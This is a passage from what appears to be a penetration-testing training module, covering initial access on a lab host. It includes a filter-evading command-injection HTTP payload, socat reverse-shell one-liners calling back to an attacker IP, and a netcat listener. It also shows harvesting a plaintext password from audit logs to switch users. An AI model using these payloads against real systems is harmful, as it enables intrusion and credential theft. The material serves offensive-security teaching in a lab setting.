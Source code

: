 # Initial Access

Now that we've thoroughly enumerated and attacked the external perimeter and uncovered a wealth of findings, we're ready to shift gears and focus on obtaining stable internal network access. Per the SoW document, if we can achieve an internal foothold, the client would like us to see how far we can go up to and including gaining `Domain Admin level access`. In the last section, we worked hard on peeling apart the layers and finding web apps that led to early file read or remote code execution but didn't get us into the internal network. We left off with obtaining RCE on the `monitoring.inlanefreight.local` application after a hard-fought battle against filters and blacklists set in place to try to prevent `Command Injection` attacks.

***

## Getting a Reverse Shell

As mentioned in the previous section, we can use [Socat](https://linux.die.net/man/1/socat) to establish a reverse shell connection. Our base command will be as follows, but we'll need to tweak it some to get past the filtering:

```shell-session
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

We can modify this command to give us a payload to catch a reverse shell.

```http
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Referer: http://monitoring.inlanefreight.local/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntpou9fdf13i90mju7lcrp3f06
Connection: close
```

Start a `Netcat` listener on the port used in the Socat command (8443 here) and execute the above request in Burp Repeater. If all goes as intended, we will have a reverse shell as the `webdev` user.

```shell-session
$ nc -nvlp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 51496
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

Next, we'll need to upgrade to an `interactive TTY`. This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) describes a few methods. We could use a method that was also covered in the [Types of Shells](https://academy.hackthebox.com/module/77/section/725) section of the `Getting Started` module, executing the well-known Python one-liner (`python3 -c 'import pty; pty.spawn("/bin/bash")'`) to spawn a psuedo-terminal. But we're going to try something a bit different using `Socat`. The reason for doing this is to get a proper terminal so we can run commands like `su`, `sudo`, `ssh`, `use command completion`, and `open a text editor if needed`.

We'll start a Socat listener on our attack host.

```shell-session
$ socat file:`tty`,raw,echo=0 tcp-listen:4443
```

Next, we'll execute a Socat one-liner on the target host.

<pre class="language-shell-session"><code class="lang-shell-session">$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
<strong>
</strong><strong>socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
</strong></code></pre>

If all goes as planned, we'll have a stable reverse shell connection on our Socat listener.

```shell-session
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
webdev@dmz01:/var/www/html/monitoring$
```

Now that we've got a stable reverse shell, we can start digging around the file system. The results of the `id` command are immediately interesting. The [Privileged Groups](https://academy.hackthebox.com/module/51/section/477) section of the `Linux Privilege Escalation` module shows an example of users in the `adm` group having rights to read ALL logs stored in `/var/log`. Perhaps we can find something interesting there. We can use [aureport](https://linux.die.net/man/8/aureport) to read audit logs on Linux systems, with the man page describing it as "aureport is a tool that produces summary reports of the audit system logs."

```shell-session
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

After running the command, type `q` to return to our shell. From the above output, it looks like a user was trying to authenticate as the `srvadm` user, and we have a potential credential pair `srvadm:ILFreightnixadm!`. Using the `su` command, we can authenticate as the `srvadm` user.

```shell-session
webdev@dmz01:/var/www/html/monitoring$ su srvadm

Password: 
$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ /bin/bash -i

srvadm@dmz01:/var/www/html/monitoring$
```

Now that we've bypassed heavy filtering to achieve command injection, turned that code execution into a reverse shell, and escalated our privileges to another user, we don't want to lose access to this host. In the next section, we'll work towards achieving persistence, ideally after escalating privileges to `root`.
